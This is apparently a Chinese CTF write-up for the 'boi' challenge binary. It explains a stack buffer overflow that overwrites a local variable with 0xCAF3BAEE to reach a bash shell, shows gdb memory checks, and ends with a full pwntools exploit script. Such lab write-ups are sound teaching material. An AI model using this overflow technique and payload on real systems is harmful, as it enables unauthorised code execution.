







# 2 缓冲区溢出 boi程序 --  地址覆盖
2021.02.12更新

首先反编译程序，得到的代码如下：  

```cpp
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 buf[2]; // [rsp+10h] [rbp-30h] BYREF
  __int64 v5; // [rsp+20h] [rbp-20h]
  int v6; // [rsp+28h] [rbp-18h]
  unsigned __int64 v7; // [rsp+38h] [rbp-8h]

  v7 = __readfsqword(0x28u);
  buf[0] = 0LL;
  buf[1] = 0LL;
  v5 = 0xDEADBEEF00000000LL;
  v6 = 0;
  puts("Are you a big boiiiii??");
  read(0, buf, 0x18uLL);
  if ( HIDWORD(v5) == -889996562 )
    run_cmd("/bin/bash");
  else
    run_cmd("/bin/date");
  return 0;
}
```
从上面的代码中可以看出，只要v5 == -889996562就可以成功启用shell，我们可以在汇编代码里可以得到具体的值为 0xCAF3BAEE




但是在代码中，v5已经被设置为0xDEADBEEF，这样明显是不可能成功的。但是程序对用户输入的数据 buf 没有做长度校验，那么就可以造成缓冲区溢出，如果我们能够把v5地址的值覆盖掉，那么就可以成功运行shell

首先查看接收用户输入的变量为buf，长度为24

```cpp
 read(0, &buf, 0x18uLL);
```
接着查看var\_20的偏移地址和buf的偏移地址



从上面可以看到，buf和var\_20的偏移地址之间差了0x10，再加上要作比较的地址v5为var\_20+4，所以buf和目标地址的偏移地址为0x10+0x4 = 0x14，而且变量类型为dq，占用4个字节，要成功覆盖掉目标地址的值，所以输入的数据长度就需要为0x14 + 4 = 0x18，正好read函数也是读取0x18个字符。前面0x14的数据随意，后面4个字节的值必须为0xcaf3baee

使用pwntools来生成payload

```python
payload = b"0"*0x14 + p32(0xcaf3baee)
# 00000000000000000000\xee\xba\xf3\xca
```
使用gdb来看看具体的情况，在0x4006a5处下断点



```cpp
b *0x4006a5
```
我们输入20个1，1的ASCII为31，查看栈布局



可以看到我们输入的20个1在内存中的起始地址为 0x7fffffffe220，接着我们查看在这个地址后面的10个字节在内存中的值是多少



这里看到，我们输入的20个1已经覆盖掉v5的值0xdeadbeef的最后一个字节，v5值变成了0xdeadbe0a，被回车符号覆盖掉了。小端机器，高字节在最后，低字节在最前面，最低有效位存在内存低位。

现在我们的目标就是把v5覆盖成我们想要的值 0xCAF3BAEE，gdb中重新运行程序，这次我们把它覆盖为0000

```cpp
gef➤  r <<< $(python3 -c "print('1'*0x14 + '0'*4)")
```
接着查看内存中的值，可以看到成功覆盖



那么接下来使用pwntools生成payload进行利用即可

```cpp
#!/usr/bin/env python3

from pwn import *

target = process('./boi')

payload = b'0'*0x14 + p32(0XCAF3BAEE)

target.send(payload)

target.interactive()
```
